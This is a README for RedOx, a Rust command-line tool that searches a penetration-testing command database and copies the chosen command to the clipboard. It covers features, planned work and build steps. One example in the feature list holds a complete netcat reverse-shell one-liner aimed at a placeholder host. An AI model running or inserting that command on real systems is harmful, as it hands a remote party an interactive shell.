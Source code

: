 
The goal of this project is to create an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) or something to run in the terminal that works like [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin. This started as a project to help improve my proficiency with Rust. I'm still new to it so I'm sure there are some poor Rust coding practices but I will be refactoring the code as I go.  I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that needs some updating and new syntax needs to be added since that hasn't been touched in almost 6 years.  

My current usage of this is to have it running in a tmux pane and when I need the syntax for something like downloading a file from my local machine and then executing that in memory via powershell then I can just ctrl+r in the CLI, type something like IEX or powershell, and then select the syntax I need via the arrow keys.  Pressing return on the hightlighted command will then copy that command to the clipboard.  So instead of searching through my notes or opening a web browser, I can stay in the terminal and quickly copy/paste the command I need via the RedOx CLI.  

## Working Features
- **note** On kali the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in terminal.  
- Ctrl+r to dynamically search the RTFM database for commands as you type and display those in a selectable list.  Works similarly to using Ctrl+r to search through terminal history.
- Ctrl+h to display a history of previously selected commands from the current session in a selectable list. 
- up/down arrow keys to highlight a command from the current search or from the history. Pressing return copies that command to the clipboard.  
- 'info' displays full information on the currently selected command.  'full information' is very sparse at the moment.  
- 'add -c <command>' to add a new command to the database.  optional: -d to add a comment/description with the command.
- 'update <column> <content>' to update a database column in the currently selected command.  At the moment the only columns to update are 'command', 'comment' and 'author'. Examples: 'update comment spawn a pty via python3', 'update author greg scharf', 'update command rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f'.  

## Currently Working On
- 'set' command for variable replacement when selecting a command that has placeholders for LHOST, LPORT, etc.
- In 'info' show variables that need to be set and if they are set display their current value.
- Need to do some sed magic on the database build files to make variable names consistent and then rebuild the database.

## To Add
- [ ] Set variables in the CLI to automatically replace placeholders in commands for things like Remote Host, Local Host, Local Port, etc similar to msfconsole.  
    - Need to standardize the naming of placeholders that are already in the RTFM database because sometimes the local host IP is represented as [me],[IP],[LHOST] or [lip].
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Add 'env' command to display all variables set in the user's config file
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [x] Add ability to update the database columns of the currently selected command.
- [x] Display command's comment and any other info after it has been selected.
- [x] Add a history feature, ctrl+h or type 'history' to show a selectable list of previously copied commands.
- [x] Show currently selected command in prompt, type info to show all columns to allow for easier updating of the database within the CLI.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Update the database with newer commands for things like Bloodhound,ffuf,feroxbuster,Rubeus,Crackmapexec,Chisel,SSHuttle, etc.
- [ ] Add a better method for generating help content with the prettytable crate.
- [ ] Allow selection mode to wrap up or down
- [ ] Fix errors that occur when attempting to create a statically linked linux release
- [ ] Get Windows version working
- [ ] Add search capability for text based/markdown notes.    
    - Root directory for user's notes will be supplied in a CLI variable.
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected... there is probably a crate to display markdown.

## To Fix
- [ ] 5-26-23: Clean up code again before it becomes too unruly.
- [x] Termion inconsistent colors between Arch and Ubuntu.
- [ ] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Kali backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.    
- [ ] Issues with Sys crate when attempting to build a Windows executable.
- [ ] Termion screen refresh on MAC M1 causes screen to flicker when arrowing through commands.

## Build/Install

### Linux
To build and use until I add release builds

```bash
git clone https://github.com/gregscharf/RTFM-Redox.git
cargo build -r
# If you encounter linker errors see Issues below
mkdir /opt/redox
cp target/release/redox /opt/redox/
cp snibs.db /opt/redox/
cd /opt/redox
./redox
```

**Issues**
When building on Debian distributions: If the linker fails during build install the following packages.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

### Windows
**Note**: Building on Windows is not currently working because of an issue I need to resolve related to the Sys crate???

